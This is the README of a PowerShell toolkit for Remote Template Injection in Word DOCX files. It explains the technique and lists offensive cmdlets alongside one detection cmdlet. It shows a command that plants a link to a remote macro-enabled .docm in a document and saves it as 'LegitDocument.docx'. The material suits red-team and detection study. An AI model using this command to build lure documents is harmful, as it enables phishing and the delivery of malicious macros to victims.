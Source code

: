 # RTI-Toolkit

Remote Template Injection Toolkit

## Description

RTI-Toolkit is an open-source PowerShell toolkit for Remote Template Injection attack. This toolkit includes a PowerShell script named `PS-Templator.ps1` which can be used from both an attacking and defensive perspective.

The following tables presents the main modules (cmdlets) of `PS-Templator.ps1`:

| Cmdlet | Description | Prespective |
| -------|:-----------:|:-----------:|
| [Invoke-Template](#invoke-template) | Implements remote template links within default Office Word templates  | attacking |
| [Invoke-Regular](#invoke-regular) | Implements remote template links within regular Office Word documents without template | attacking |
| [Invoke-Identify](#invoke-identify) | Indentifies remote template links within Office Word docx documents with/without template | defensive |

⚠️ `PS-Templator.ps1` supports only DOCX files.

## Version

### 1.0.0

## License

This tool is licensed under the [![License: MIT](https://img.shields.io/badge/MIT-License-yellow.svg)](LICENSE).

## Table of Contents
- [RTI-Toolkit](#rti-toolkit)
  - [Description](#description)
  - [Version](#version)
  - [License](#license)
  - [Table of Contents](#table-of-contents)
  - [Remote Template Injection (RTI)](#remote-template-injection-rti)
  - [Installation](#installation)
  - [cmdlets](#cmdlets)
    - [Invoke-Template](#invoke-template)
      - [Invoke-Template Example](#invoke-template-example)
    - [Invoke-Regular](#invoke-regular)
    - [Invoke-Identify](#invoke-identify)
  - [References](#references)

## Remote Template Injection (RTI)

Remote Template Injection (RTI) in the context of Microsoft Office refers to a specific type of security vulnerability that can be exploited through malicious templates in Office documents (e.g., Word, Excel, PowerPoint).

For example, in a DOCX file, the content is stored in XML format within the archive, and some of these XML files may reference external resources or templates. Attackers can indeed manipulate these XML files to insert malicious links or content that can potentially exploit vulnerabilities or deceive users. 

This is a Macro-Based attack.

## Installation

To load `PS-Templator.ps1` as a module into memory, run the following command:
```
Import-Module .\PS-Templator.ps1
```

:information_source: `PS-Templator.ps1` works without the necessity of installing any additional dependencies.<br /><br />
:information_source: `PS-Templator.ps1` works as PowerShell module.

## cmdlets

### Invoke-Template

Invoke-Template is a cmdlet that implements remote template links within default Office Word templates.

#### Invoke-Template Example

Assuming that you have a default Word template, one like them:

![All Words Templates](/Pictures/All-Word-Templates.png)

Saved as, for example, 'Name.docx':

![Default Word Template Document](/Pictures/Default-Word-Template.png)

If you use `Invoke-Template` cmdlet you can insert a malicious link within this docx

```
Invoke-Template -InputDoc Name.docx -Link "https://192.168.1.3:8080/Doc1.docm" -Output C:\Users\User\Desktop\LegitDocument.docx
```

Outcome:

![Invoke-Template-1](/Pictures/Invoke-Template-1.png)

As you can see, the Invoke-Template module keeps a backup of the original document and provides the full path to the malicious document.

From debugging prespective, if you connvert the malicious docx to zip archive and go into /word/_rels/settings.xml.rels, you can see the malicious link:

![Invoke-Template-Debug](/Pictures/Invoke-Template-Debug.png)

### Invoke-Regular

### Invoke-Identify

## References
- [ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
- [dmcxblue.gitbook.io](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1221-template-injection)
- [john-woodman.com](https://john-woodman.com/research/vba-macro-remote-template-injection/)
- [remoteInjector GitHub John Woodman](https://github.com/JohnWoodman/remoteInjector)
- [Invoke-Templator GitHub Outflanknl](https://github.com/outflanknl/Invoke-Templator)
- [attack.mitre.org](https://attack.mitre.org/techniques/T1221/)